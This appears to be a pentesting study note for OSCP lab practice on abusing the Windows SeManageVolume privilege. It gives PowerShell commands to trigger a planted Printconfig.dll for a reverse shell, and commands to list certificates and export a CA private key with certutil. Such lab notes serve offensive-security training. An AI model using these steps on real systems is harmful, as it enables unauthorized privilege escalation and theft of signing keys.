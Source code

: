 https://banua.medium.com/proving-grounds-access-oscp-prep-2025-practice-7-557f902bf1a9
 labs: [[Certificate]]

You have `SeManageVolumeExploit.exe` you can transfer it and run it. And you have `Printconfig.dll` that you need to change its code because of different IP or different command you want to run.


When you run `SeManageVolumeExploit.exe` it gives you read, write permission in most of the system files, ==But some of them you still can't access==. So, it depend on what files you can access.
if `C:\Windows\System32\spool\drivers\x64\3\` is not in the system you still have a chance to do many other things. Ex `Accessing privileged certificates`, `ssh files`.


---
### Classic exploit

First you should run `SeManageVolumeExploit.exe` this give you access to `C:\` so you can inject `Printconfig.dll` at `C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll`
Then, Initiate the PrintNotify object by executing the following PowerShell commands:
```
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")  
$object = [Activator]::CreateInstance($type)
```
Check nc listener GG.

---
### CA Certificate
If you are in CA server, the CA certificate private key my be present on the server, but you can't read it in normal ways. So by running `SeManageVolumeExploit.exe` you will have permission to see them.
```powershell
Get-ChildItem Cert:\LocalMachine\My | ForEach-Object { $thumb = $_.Thumbprint; $subj  = $_.Subject; $hasPK = if ($_.HasPrivateKey) {'yes'} else {'no'}; $ku = ($_.Extensions | Where-Object { $_.Oid.Value -in @('2.5.29.15','2.5.29.19') } ).Format($false) ;[pscustomobject]@{Thumb=$thumb; Subject=$subj; HasPrivateKey=$hasPK; KeyUsage=$ku} } | Format-Table -AutoSize

certutil -exportPFX My <certificate Serial number> Certificate-LTD-CA.pfx
```

refer to [[Golden Certificate]] to complete the exploitation.